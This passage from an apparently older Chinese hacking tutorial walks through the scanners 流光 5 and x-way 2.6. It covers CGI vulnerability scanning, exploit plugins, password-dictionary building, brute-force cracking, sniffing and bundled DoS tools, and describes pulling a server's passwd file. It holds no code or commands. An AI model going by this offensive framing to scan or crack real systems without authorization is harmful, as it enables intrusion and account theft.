在“CGI Rules”设置中，默认为“ALL”，也就是全部选择的，这样固然可以提高我们扫描的成功率，但同样地会使我们扫描的时间大大增加。因此如何在扫描的效率及扫描的时间之间找到一个最佳结合点，就要看你自己如何选择了。比如如果我们只想扫描 NT/2000 系统的 CGI 漏洞的话，就可以不选择 UNIX/LINUX 系统的 CGI 漏洞，反之亦是。如果我们只想扫描一个或几个 CGI 漏洞的话，只需要先选择“反向连接”，然后再选择我们想要扫描的特定 CGI 漏洞就可以了，见图21。

在“PLUGINS”中，是流光 5 支持的对一些特定的安全漏洞的检测，主要包括了：FrontPage 2000 Extension Exploit、IIS 5.0 WEBDAV Exploit、IIS 5.0 NULL.Printer Exploit、QPOP Verify User、SunOS FTP CWD Verify Username、Windows 2000 RPC Locator Remote Exploit 等六个。因为是使用插件的形式，所以对于一些新出现的安全漏洞也很容易扩充。在这儿我们可以选择检测全部的安全漏洞，或是只检测特定的安全漏洞，见图22。

当确定好我们要检测的内容以及要检测的 IP 地址后，流光 5 就会出现如图23的菜单，要我们选择流光主机，缺省为本地主机，如果我们想使用远程 Sensor 主机来进行扫描的话，就可以在这儿选择。

所有扫描的当前状态都会在主界面右上方的小窗口中显示出来，所有的扫描结果也会显示在界面下方的一个小窗口中，见图24。

最后再让我们来看一下流光 5 中自带的字典生成工具，使用这个工具，我们完全可以定制出更加强壮的密码字典，甚至是暴力破解。

选择菜单栏中的“工具”→“字典工具”→“黑客字典 III 流光版”，出现“黑客字典 III 流光版”的设置界面，我们可以根据目标主机的具体情况，来选择是只使用字母，还是只使用数字，或是全部使用，以及使用的位数。举个例子来讲，国内使用电话号码来作为电脑账号的有很多，因此，我们使用七位纯数字就可以做出一个很强壮的密码字典来，见图25、图26。

好了，流光的使用就简单介绍这么多，更多的功能大家一定会举一反三的。

## 1.3 x-way 2.6

x-way 是国内一款功能非常强大的网络扫描程序，同小榕的流光一样，x-way 最大的特点就是高度集成，几乎流光就有的，在 x-way 中都可以找到类似的功能；而且 x-way 与流光比起来，也没有 IP 及使用时间方面的限制，更不受系统平台的限制；在 Windows 9x、ME 及 Windows NT/2000/XP 下都可以正常使用。就像 x-scan 2.3 一样，虽然如此，我们仍然建议大家尽可能地在 NT/2000/XP 下来使用，因为系统平台的不同，可能程序中会有一些网络功能在 9x/ME 下发挥得不是多好。

x-way 的最新版本为 2.6，发布日期为 2002 年 4 月 2 日。没办法，从那以后，x-way 就没有再推出更新的版本，其实这种情况流光也同样存在，本来决定 2003 年六月推出的流光 5，也是拖了再拖，直到现在在网上也只能见到流光 5 的一个测试版本。x-way 2.6 比起其前期版本 x-way 2.5 来，界面几乎是一样的，我想改动应该是在内部的扫描算法，以及对系统平台的支持，及修正了程序存在的一些 BUG 吧。

程序运行后的界面如图1所示。

在界面的左边有六个主要的扫描选项，包括“高级扫描”、“主机搜索”、“查询器”、“猜解机”、“黑匣子”、“嗅探器”。让我们先来看看“高级扫描”选项。

点击后出现“高级扫描设置”菜单，在这个菜单上一共有六个主要的设置项，包括“扫描设置”、“端口定义”、“CGI 设置”、“CGI 规则”、“探测设置”、“猜解设置”。在“扫描设置”中是主要的扫描项，可以让我们自由地定义需要扫描的信息，主要包括“主机信息”、“路由表”、“IPC 信息”、“WEB 服务信息”、“FTP 匿名检测”、“SMTP 检测”、“PINGER 检测”、“RPC 检测”、“弱口令检测”、“端口”、“CGI/ASP 漏洞”等十一项内容，见图2，这个和 x-scan 2.3 的扫描选项有点儿类似。许多朋友熟悉的 IIS 漏洞是包括在“CGI/ASP 漏洞”选项中的，我们可以全选，也可以自己定义。在右边的“扫描范围”中我们可以输入自己想要扫描的 IP 范围。如果我们选中了“扫描前 ping”这个开关，会提高扫描的速度，但是对于一些禁止了 ping 的目标主机，就会被忽略。

在“CGI 规则”中存放的是所有的 CGI 漏洞列表，在这儿我们可以自己定义，来让 x-way 扫描特定的 CGI 漏洞，在菜单左上的下拉选项中一共有三个选项，分别为“默认类型”、“Win2000/NT 漏洞”、“Unix/Linux 漏洞”，默认为“所有类型”，我认为这是很好的一个功能，可以让我们更快速地来扫描特定的 CGI 漏洞，而不是像某些扫描程序那样，必须扫描全部的漏洞，见图3。

在“探测设置”中主要是“WEB 服务信息”、“路由跟踪”、“IPC 信息”、“SMTP 探测”以及“用户名及工作组”等五个选择项，见图4。

当这些选项选择好后，点击“确定”，x-way 2.6 就会扫描目标主机了。图5是对一台位于

## 扫描

日本的 UNIX/LINUX 服务器的扫描情况，从图中我们可以看到该服务器存在很严重的 CGI 漏洞，可以轻易地得到对方的 PASSWD 文件的内容，从而得到对方系统中存在的所有合法帐号。

让我们再来看一下“主机搜索”，在这个选项中我们可通过自己设置“搜索方式”，来进行对特定目标的扫描，以此来提高扫描速度，点击右边的“高级设置”按钮，会出现更加详细的设置选项，见图6。

“查询器”是 x-way 2.6 自带的一个不错的小功能，如图7所示，包括了“DNS 查询”、“时间查询”、“地址查询”、“我的 IP”、“PINGER”、“NT 时间”等六项，非常实用，可以用来查询远程服务器的时间、远程服务器上的用户列表、远程服务器的位置，进行远程服务器的域名及 IP 互换等等。



图4



图5



图6

让我们再来看一下“主机搜索”，在这个选项中我们可通过自己设置“搜索方式”，来进行对特定目标的扫描，以此来提高扫描速度，点击右边的“高级设置”按钮，会出现更加详细的设置选项。



图7



图8

“猜解机”顾名思义，是用来猜解口令的。主要有 FTP 猜解、SQL 猜解、POP3 猜解、SOCKS5 猜解、共享猜解以及 HTTP 猜解六项，这六项中，我认为 FTP 猜解、SQL 猜解、共享猜解是最有用的。默认情况下，x-way 2.6 使用的是字典猜解，我们可以通过“猜解配置”来进行字典文件的设置，x-way 2.6 也在“猜解配置”选项菜单中提供了暴力破解。

## 致命前奏

我们可以选中下边的“自定义字符”，然后再选择自己需要的字符集，包括大小写英文字母、数字及特殊字符，最后再选择要破解的密码长度，就可以对目标服务器进行穷举破解了，见图8。

图9是正在进行穷举破解的一张截图，在破解的过程中，我们可以点击“暂停猜解”，然后点击“保存进度”来将当前的破解情况保存下来，而等到有时间时，可以通过“读入进度”来“继续猜解”，这样你就不必担心猜解会半途而废了。

“嗅探器”是一个用于网络监听的工具，这是 x-scan 2.3 中所没有的，即使是流光，也只是在最新的流光5才出现的。左上的按钮依次为“开始”、“暂停”、“停止”，最右边那个像漏斗一样的按钮是“捕获筛选”选项，见图11。





捕获的数据包会依次在上边显示出来，我们点击这些捕获的数据包，下边就会出现这些数据包的16进制内容，见图12。





“黑匣子”是 x-way 2.6 自带的几个攻击性的小工具，如图10所示。其中，“NUKE”主要被用来攻击 WIN98/98SE 系统，“OOB”可以被用来攻击 WIN95 和 WINNT 4.0，“MSSQL”是专门用来对 MS-SQL 数据库系统进行 DOS 攻击的，“SMTP”可以用来攻击 SMTP 服务器，“PLUGIN”是专门通过 80 端口对服务器进行攻击的工具。对个人电脑用户，这几个小工具可能还存在一定的威胁性，但是对于安全意识要高一些的网络管理员来说，估计这几个小工具就无用武之地了。

在 x-way 2.6 主界面最上方的下拉菜单中，“工具”里还有两个比较实用的东西，分别是“TFTP 服务器(T)”以及“SQL 远程命令”。点击“TFTP 服务器”后就会出现图13的画面，默认的目录是 x-way 2.6 的当前目录，我们可以通过右边那个上边有三个点的按钮来进行设置，设置好后点击“启动”就可以了，如使用完毕可以点击“停止”。这是流光及 x-scan 中都没有集成的一个非常实用的功能。





图13

图14

